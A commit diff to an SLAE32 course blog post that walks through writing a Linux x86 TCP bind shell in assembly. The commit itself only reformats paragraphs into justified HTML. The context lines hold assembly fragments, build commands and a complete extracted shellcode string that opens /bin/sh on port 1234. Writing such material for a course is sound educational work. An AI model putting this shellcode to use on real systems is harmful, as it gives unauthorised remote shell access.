

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md, in a window 1280 px wide and 900 px high, scrolled down 4655 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
SLAE32 - Assignment #1

````diff
--- a/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
+++ b/_posts/2019-05-13-SLAE32-Assignment-#1-TCP_bind_shell.md
@@ -74,14 +74,18 @@
 execve()
 </pre>
 
-The above system calls except **execve** and **dup2** are socket system calls and they are referenced with **socketcall** which is a common kernel entry point. Before moving further, the following steps are mentioned in order to construct the bind connection to the client as follows
+<p style="text-align:justify;">
+The above system calls except **execve** and **dup2** are socket system calls and they are referenced with **socketcall** which is a common kernel entry point. Before moving further, the following steps are mentioned in order to construct the bind connection to the client as follows:
+</p>
 
 - create a socket
 - bind socket to address and port
 - listen for connections
 - accept connection
 
+<p style="text-align:justify;">
 The steps above providing a footprint to further build the bind shellcode. Furthermore, the different numbers assigned to each socket system calls must be searched in order to use them in each step. The following image shows the numbers used for the needed socket system calls
+</p>
 
 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/linux/net.h | grep SYS
@@ -107,7 +111,10 @@
 #define SYS_SENDMMSG 20 /* sys_sendmmsg(2) */
 </pre>
 
+
+<p style="text-align:justify;">
 There are several types of sockets, although stream sockets and datagram sockets are the most commonly used. The types of sockets are also defined for example in Ubuntu 12.04 inside the file /usr/include/i386-linux-gnu/bits/socket.h .The following output shows the assigned values at the stream and datagram sockets accordingly
+</p>
 
 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/i386-linux-gnu/bits/socket.h | grep SOCK_
@@ -131,7 +138,9 @@
 #define SOCK_NONBLOCK SOCK_NONBLOCK
 </pre>
 
-Proceeding further, it is time to create the **bind.nasm** file. Before starting to write the **bind** shell in assembly, the registers **eax** , **ebx, edi** and **edx** will be zeroed out
+<p style="text-align:justify;">
+Proceeding further, it is time to create the <b>bind.nasm</b> file. Before starting to write the <b>bind</b> shell in assembly, the registers <b>eax</b> , <b>ebx, edi</b> and <b>edx</b> will be zeroed out
+</p>
 
 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 global _start
@@ -152,16 +161,20 @@
 int socketcall(int call, unsigned long *args);
 ```
 
-The **call** argument determines which **socket** function to invoke.&nbsp;_ **args&nbsp;** _points to a block containing the actual arguments, which are passed through to the appropriate call. In this case, the **socketcall** system call identifier will be determined first and afterwards the **socket** system calls ( SYS\_SOCKET, SYS\_BIND, SYS\_LISTEN, SYS\_ACCEPT ) will be called through the **call** instruction in assembly.
+<p style="text-align:justify;">
+The <b>call</b> argument determines which <b>socket</b> function to invoke. The <b>args</b> points to a block containing the actual arguments, which are passed through to the appropriate call. In this case, the <b>socketcall</b> system call identifier will be determined first and afterwards the <b>socket</b> system calls ( SYS_SOCKET, SYS_BIND, SYS_LISTEN, SYS_ACCEPT ) will be called through the <b>call</b> instruction in assembly.
+</p>
 
 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socketcall
 #define __NR_socketcall 102
 </pre>
 
-As seen above, the **socketcall** can be called using the defined identifier **102** which is **0x66** in hex. Before moving further in x86 assembly, a very important aspect of the language compilation must be mentioned, which is the calling convention.
+<p style="text-align:justify;">
+As seen above, the <b>socketcall</b> can be called using the defined identifier <b>102</b> which is <b>0x66</b> in hex. Before moving further in x86 assembly, a very important aspect of the language compilation must be mentioned, which is the calling convention.
 
 In x86 Linux systems the system calls parameters are passed into the stack using the following registers
+</p>
 
 - **eax** used to hold the system call number. Also used to hold the return value from the stack
 - **ecx, edx, ebx, esi, edi, ebp** are used to pass 6 parameter arguments to system call functions
@@ -195,7 +208,10 @@
               ; EAX register must be used with other syscalls too
 </pre>
 
+
+<p style="text-align:justify;">
 After the socket creation, the next step is to bind the IP address of the target machine as well as a free local port on that machine to the socket descriptor **sockfd**. Also, a port must be chosen that is unlikely to be used by any service at the target machine ( e.g. 1234 ). In order to accomplish the binding , the following system call will be used.
+</p>
 
 ### Bind Function Synopsis
 
@@ -233,7 +249,10 @@
 int 0x80        ; call syscall interrupt to execute the arguments
 </pre>
 
+
+<p style="text-align:justify;">
 As seen at the code above, the port number in hex format has been pushed into the stack after it was transformed in network byte order. That happened because ports and addresses are always specified in calls to the socket functions using the network byte order convention. This convention is a method of sorting bytes independently of specific machine architectures. The following python script does the network byte convention and then transforms the decimal value into hex in order to use it when the port pushed on the stack
+</p>
 
 ```python
 !/usr/bin/python
@@ -263,7 +282,9 @@
 int listen(int sockfd, int backlog);
 ```
 
-After binding the **sockfd** to the target IP and PORT, a listen method must be initiated in order to start listening for connections.
+<p style="text-align:justify;">
+After binding the <b>sockfd</b> to the target IP and PORT, a listen method must be initiated in order to start listening for connections.
+</p>
 
 ### Listen:
 
@@ -292,9 +313,13 @@
 int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
 ```
 
-After the **listen** system call, the **accept** system call must be called in order to create a new accepted socket and then return the new descriptor referring to that socket. The argument **addr** is a pointer to **sockaddr** structure. The argument **sockfd** is the socket descriptor that was created using the **socket** system call and is bound to a local address using **bind** system call after it listens for connections using l **isten** system call.
+<p style="text-align:justify;">
+After the <b>listen</b> system call, the <b>accept</b> system call must be called in order to create a new accepted socket and then return the new descriptor referring to that socket. The argument <b>addr</b> is a pointer to **sockaddr** structure. The argument <b>sockfd</b> is the socket descriptor that was created using the <b>socket</b> system call and is bound to a local address using <b>bind</b> system call after it listens for connections using <b>listen</b> system call.
+</p>
 
-The **accept4** &nbsp;system call is available starting with **Linux 2.6.28** ; support in glibc is available starting with version **2.10**
+<p style="text-align:justify;">
+The <b>accept4</b> system call is available starting with <b>Linux 2.6.28</b> ; support in glibc is available starting with version <b>2.10</b>
+</p>
 
 ### Accept:
 
@@ -317,7 +342,9 @@
 int dup2(int oldfd, int newfd);**
 ```
 
-After initiating the **accept** system call, there must be a redirection from standard input, output and error descriptors to the client descriptor returned from **accept** syscall. This has to be done in order to be able to initiate commands in a shell environment at the target machine. The following description has been taken from Linux manual page: The **dup2** system call performs the same task as **dup** , but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in **newfd**. If the file descriptor **newfd** was previously open, it is silently closed before being reused.
+<p style="text-align:justify;">
+After initiating the <b>accept</b> system call, there must be a redirection from standard input, output and error descriptors to the client descriptor returned from <b>accept</b> syscall. This has to be done in order to be able to initiate commands in a shell environment at the target machine. The following description has been taken from Linux manual page: The <b>dup2</b> system call performs the same task as <b>dup</b> , but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in <b>newfd</b>. If the file descriptor <b>newfd</b> was previously open, it is silently closed before being reused.
+</p>
 
 ### Dup2 :&nbsp;
 
@@ -336,7 +363,10 @@
 
 ### Execve Function Synopsis
 
+
+<p style="text-align:justify;">
 Now that the standard input, output and error are pointing to 0,1,2 file descriptors, the run the execve function will be run in order to execute the /bin/sh command to the target host.
+</p>
 
 ```c
 #include <unistd.h>
@@ -361,7 +391,10 @@
 int 0x80        ; execute execve syscall**
 </pre>
 
-As just shown, the **/bin/sh** string is pushed onto the stack in reverse order by first pushing the terminating null value of the string, and then pushing the **//sh (4 bytes are required for alignment and the second / has no effect)**, and finally pushing the /bin onto the stack. At this point, we have all that we need on the stack, so **esp** now points to the location of /bin/sh.
+
+<p style="text-align:justify;">
+As just shown, the <b>/bin/sh</b> string is pushed onto the stack in reverse order by first pushing the terminating null value of the string, and then pushing the <b>//sh (4 bytes are required for alignment and the second / has no effect)</b>, and finally pushing the /bin onto the stack. At this point, we have all that we need on the stack, so <b>esp</b> now points to the location of /bin/sh.
+</p>
 
 Then, the following commands will be used in order to compile and link the code.
 
@@ -376,7 +409,10 @@
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># ./bind
 </pre>
 
-Then from **netstat** tool can be seen that the target machine listens to port **1234** &nbsp;and waits for an incoming connection.
+
+<p style="text-align:justify;">
+Then from <b>netstat</b> tool can be seen that the target machine listens to port <b>1234</b> and waits for an incoming connection.
+</p>
 
 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># netstat -antp | grep 1234 tcp 0 0 0.0.0.0:1234 0.0.0.0:\* LISTEN 1193/./bind
@@ -398,7 +434,9 @@
 <span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># objdump -d ./bind|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' "\x31\xc0\x31\xdb\x31\xd2\x31\xf6\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x52\x56\x89\xe1\x83\xc3\x02\xb0\x66\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
 </pre>
 
+<p style="text-align:justify;">
 The following code utilizes the shellcode created from the assembly code above. The program initializes a custom port number to the target host.
+</p>
 
 ```c
 #include <sys/socket.h>
````
